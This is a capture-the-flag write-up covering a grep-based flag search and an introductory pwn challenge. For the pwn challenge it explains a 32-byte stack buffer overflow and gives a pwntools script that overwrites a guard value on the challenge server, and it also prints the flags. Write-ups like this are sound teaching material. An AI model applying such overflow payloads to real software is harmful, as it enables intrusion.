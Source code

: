 ### Solve
Once i extracted the archived file, there are **so many** subfolder inside. So, because i just wanna search a 'flag', i use a command that can find a string or text in a directory, `grep`. It will leads us to a directory or file that contains the needed string. Then, add `-r` flag to search it _recursively_.
```sh
grep -r "wctf"
```

[gambar ss]

**Flag :**
```flag
wctf{0h_WOW_tH@Nk5_yOu_f0U^d_1t_xD}
```

# 💻 Pwn
## p0wn3d
### Description
> An introduction to pwn challenges. This is to protect the babies from last year!
>
> `nc p0wn3d.kctf-453514-codelab.kctf.cloud 1337`
**Hint :** What is a buffer overflow? What is acii?
**Attachment :** [dist.tar.gz](./files/dist-pwn.tar.gz)

### Solve
After extract the given attachment, i got 2 files, `main.c` and `chal` binary file. Then, after analyzed the **main.c** file, there is avulnerability in how the program handles user input. The program uses `fgets()` function to get user input, which is need 64 bytes. But, the char bug[] is only takes 32 bytes and int guard is 4 bytes. So, if we input more than 32 bytes, it will overflow the buffer and we can control it. 
```c
if (local_18 == 0x42424242) {
    get_flag();
}
```
If we wanna get the flag, we have to make `local_18` equal to `0x42424242`. So, we can use python as the solver script. Run it and i got the flag.
Here is the solver.py :
```python
from pwn import *

# Make the payload (32 bytes dummy + 0x42424242)
payload = b"A" * 32 + p32(0x42424242)

# p = process("./chal") # For try it locally
p = remote("p0wn3d.kctf-453514-codelab.kctf.cloud", 1337)
p.sendline(payload)

# Lihat output flag
p.interactive()
```
**Flag :**
```flag
wctf{pwn_1s_l0v3_pwn_1s_l1f3}
```